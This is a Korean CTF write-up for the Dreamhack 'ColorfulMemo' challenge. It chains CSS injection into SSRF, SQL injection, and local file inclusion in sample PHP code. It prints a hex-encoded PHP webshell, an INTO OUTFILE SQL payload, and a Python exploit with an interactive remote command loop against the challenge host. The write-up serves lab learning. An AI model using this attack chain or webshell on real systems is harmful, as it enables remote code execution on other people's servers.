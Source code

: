 ```yaml
---
title: "[dreamhack] ColorfulMemo 문제 풀이"
categories:
  - dreamhack
tags:
  - dreamhack   
  - css injection
  - ssrf
  - LFI
  
toc: true
toc_sticky: true
toc_label: "ColorfulMemo 문제 풀이"
toc_icon: "bookmark"
author_profile: true
hidden: true
---
```


💡  [2022 Spring GoN Open Qual CTF] ColorfulMemo 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
문제 링크 : [https://dreamhack.io/wargame/challenges/473/](https://dreamhack.io/wargame/challenges/473/)

우선 문제를 풀기에 앞서 웹페이지의 기능은 다음과 같습니다.

**Write**

![image](https://user-images.githubusercontent.com/33647663/160804268-91cab590-393d-41ed-ac79-2e2a9cad684c.png)

**Read & Report**

![image](https://user-images.githubusercontent.com/33647663/160804363-b7f0fcb9-933f-4e8e-b8fa-0ca235b3769e.png)

기본적으로 게시글에 Report 기능이 있기 때문에 CSRF, XXE, SSRF 와 같은 스크립트를 이용한 공격에 대해서 생각해 봐야 합니다.

# 파일 분석

본론 부터 보면 문제에는 총 3개의 취약점이 있습니다.

## LFI(Local File Inclusion)

index.php 파일에서는 다음과 같은 형태로 파일들을 연결해 줍니다.
이때 Path로 입력한 값에 대한 검증이 없기 때문에
```path=../../../../tmp/shell```과 같이 입력한다면
```./../../../../tmp/shell.php``` 파일에 접근이 가능해집니다.

**index.php**
```php
<?php
    $path = $_GET["path"];
    if($path == ""){
        $path = "main";
    }
    $path = "./".$path.".php";
?>

// 중략
<div class="body">
    <?php include_once $path; ?>
</div>
```

## SQLI(SQL Injection)
대부분의 코드에서 Prepared Statement를 활용하여 원천적으로 SQL Injection이 막혀있는데, 다음 부분에서 유일하게 sql injection 공격이 가능한 포인트가 있었습니다. id 값에 대한 검증은 check.php 파일을 호출하기 전에 하고 있었으며, 이 부분을 우회한다면 sqli 공격이 가능합니다.

**check.php**
```php
<?php
if($_SERVER["REMOTE_ADDR"] == '127.0.0.1' || $_SERVER["REMOTE_ADDR"] == '::1'){
    $id = $_GET['id'];
    $mysqli = new mysqli('localhost','user','password','colorfulmemo');
    // I believe admin 
    $result = $mysqli->query('SELECT adminCheck FROM memo WHERE id = '.$id); // SQL Injection에 취약함
    if($result){
        $row = mysqli_fetch_row($result);
        if($row){
            if($row[0] != 1){
                $stmt = $mysqli->prepare('UPDATE memo SET adminCheck = 1 WHERE id = ?');
                $stmt->bind_param('i',$id);
                $stmt->execute();
                $stmt->close();
            }
        }
    }
}
else{
    die("no hack");
}
?>
```

## SSRF with CSS Injection
게시글을 read할때 다음과 같은 로직으로 구성되어 script를 차단하고 있습니다. 이때 색을 선택하는 color 부분에서 '<' , '>' 에 대한 필터링만 하고 있기 때문에 CSS Injection이 가능한 취약점이 발생했습니다. 이를 이용해서 report를 할 때 해당 게시글을 읽으면, 봇에서 스크립트가 실행되게 되어 SSRF 공격이 가능해 집니다.

**read.php**

```php
<?php
$id = $_GET["id"];

$mysqli = new mysqli('localhost','user','password','colorfulmemo');
if($mysqli){
    $stmt = $mysqli->prepare('SELECT title, color, content, adminCheck FROM memo WHERE id = ?');
    $stmt->bind_param('i',$id);
    $stmt->execute();
    $result = $stmt->get_result();
    $stmt->close();
}
else{
    die('db error');
}

$row = mysqli_fetch_row($result);
if($row){
    $title = $row[0];
    $color = $row[1];
    $color = str_replace("<", "&lt;", $color);
    $color = str_replace(">", "&gt;", $color);
    $content = $row[2];
    $adminCheck = $row[3];
}
else{
    die('no such memo');
}

<style>
    .content{
        color:<?php echo $color ?>      // CSS Injection 취약점
    }
</style>

// $title과 $content는 htmlspecialchars로 스크립트 실행 불가
<td><?php echo htmlspecialchars($title); ?></td>
<td><span class="content"><?php echo htmlspecialchars($content); ?></span></td>
```


# 시나리오

위의 3가지 취약점을 종합하여 다음과 같은 시나리오 flag를 획득합니다.

1. 게시글을 작성할 때, CSS Injection을 이용하여 악성 게시글을 report 하여 bot에서 글을 읽게 만든 후, ./check?id=[sql injection 코드] 로 작성하여 SSRF를 이용한 sql injection을 수행합니다.

2. SQL Injection 에서는 웹쉘이 서버에 생성되도록 합니다. my.cnf 파일을 보면 ```secure-file-priv= /tmp/```로 되어 있기 때문에 /tmp/shell.php로 파일을 작성합니다.

3. LFI 취약점을 이용하여 해당 경로로 접근하여 웹쉘을 실행시킵니다.


이 시나리오 대로 웹쉘이 실행되며 flag를 획득할 수 있습니다.


## CSS Injection

memoColor =  black; background: url("./check.php?id=3 union select '웹쉘' into outfile '/tmp/shell.php'")

와 같이 작성해 준다면 봇이 해당 글을 클릭하면 SSRF로 인해서 shell.php 파일이 생성됩니다.

## bypass '<','>' filtering
웹쉘을 작성할 때 주의할 점은 read.php 함수에서 다음과 같이 '<','>' 글자를 필터링 하고 있다는 것입니다.

```php
    $color = str_replace("<", "&lt;", $color);
    $color = str_replace(">", "&gt;", $color);
```

웹쉘을 다음과 같이 작성하면 필터링에 걸립니다.

```php
<?php system($_GET['cmd']); ?>
```

따라서 이 부분을 16진수로 표현하여 php에서는 필터링에 안걸리지만, mysql 에서 실행될 때, 문자열로 변환되어 실행되도록 해줍니다.

```
3 union select 0x3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e  into outfile '/tmp/shell.php'
```

## exploit.py

```python
import requests

url = "http://host1.dreamhack.games:12811/?path=write"

datas = {
    "memoTitle" : "1",
    "memoColor" : "black; background: url(\"./check.php?id=3 union select 0x3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e  into outfile '/tmp/shell.php'\")",
    "memoContent" : "123"
}

response = requests.post(url,data=datas)
# 게시글 작성 후 해당 게시글 report.
# 그러면 /tmp/shell.php 파일이 서버에 생성됩니다.

# 웹쉘 실행 코드는 아래


while(1):
    payload = input("[+] Enter the command : ")
    RESULT = requests.get("http://host1.dreamhack.games:12811" + f'/?path=../../../../../../tmp/shell&cmd={payload}').text.split('<div class="body">')[1].split('</div>')[0].strip()
    print(RESULT)
```


**게시글 작성한 뒤 해당 글을 읽을 때, check.php파일이 호출되는 모습**

![image](https://user-images.githubusercontent.com/33647663/160810280-8c1f9114-9a16-4de9-8579-b686a47bdada.png)

**report 후, 웹 쉘이 실행되어 쉘을 획득한 모습**
![image](https://user-images.githubusercontent.com/33647663/160810477-542bafb9-0b84-4331-acab-4fdf41b60899.png)

**root 디렉터리에 flag 파일이 보임**
![image](https://user-images.githubusercontent.com/33647663/160810665-b67b3615-7c2a-457f-8278-1a969d7030f6.png)